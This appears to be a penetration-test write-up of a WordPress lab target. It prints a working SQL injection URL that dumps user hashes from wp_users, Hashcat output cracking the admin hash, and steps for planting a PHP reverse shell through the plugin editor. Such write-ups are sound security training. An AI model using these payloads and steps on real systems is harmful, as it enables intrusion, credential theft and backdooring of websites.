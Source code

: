 This scan showed that an unauthenticated SQL injection vulnerability existed on the web application. The link referenced under wpscan.com provided the information to input into the URL in order to exploit this vulnerability.
![[SQLi path.png]]

This path was appended to the alvida-eatery.org URL.
```
http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users 
```

The injection revealed a JSON API with outputs from the backend SQL database, including a potential password hash for the admin user.
![[sqli output.png]]
![[sqli output zoom.png]]

The "`$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0`" hash was fed to Hashcat and was able to successfully identify the associated password using the `rockyou.txt` password list.
```cmd.exe
hashcat $P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0 rockyou.txt

<SNIP>
$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:hulabaloo

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0
Time.Started.....: Mon May 22 09:22:23 2023 (4 secs)
Time.Estimated...: Mon May 22 09:22:27 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
<SNIP>
```

The password for the admin user was "hulabaloo". This allowed the tester to log in to the application as the admin user. The login page was located at `http://alvida-eatery.org/wp-login.php`

The tester went to the "Plugins" menu and then to "Installed Plugins."
![[to plugins 1.png]]

From there, the tester clicked on the Akismet Anti-Spam plugin, then went back to the Plugins menu and to the "Plugin File Editor."
![[plugin edit.png]]

This provided the tester the ability to edit the source PHP source code for the akismet plugin.
![[askimet 1.png]]

The tester inserted the PHP PentestMonkey reverse shell into the code, removing the beginning and terminal syntax (i.e., `<?php` and `?>`) so the remainder of the script was still able to execute.
![[revshell insert.png]]
